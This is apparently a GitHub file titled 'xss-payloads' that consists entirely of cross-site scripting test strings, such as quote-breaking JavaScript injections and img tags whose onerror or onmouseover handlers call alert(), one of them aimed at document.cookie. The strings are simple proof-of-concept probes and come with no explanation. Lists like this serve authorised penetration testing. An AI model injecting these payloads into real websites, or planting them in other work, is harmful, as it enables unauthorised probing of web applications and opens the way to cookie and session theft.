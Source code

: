 # xss-payloads
> '; alert(documment.cookie);//
> XSS1"<img/src=x onmouseover=alert(/XSS1test/)//

XSS2"<img src=x onmouseover=alert('XSS1test')//
XSS3"<img src=x onmouseover=alert("XSS1test")//
test'-alert('XSS2test')-'xss
test'-alert(/XSS2test/)-'xss
test'/alert(/XSS2test/)/'xss
test"><img/src=x onerror=alert(XSS3test)>'
test"><img/src=x onerror=alert('XSS3test')>'
test"><img src=x onmouseover=alert('XSS3test')>'
<img src=x onmouseover=alert('XSS3test')>'
<img/src=x onmouseover=alert(1234)>'
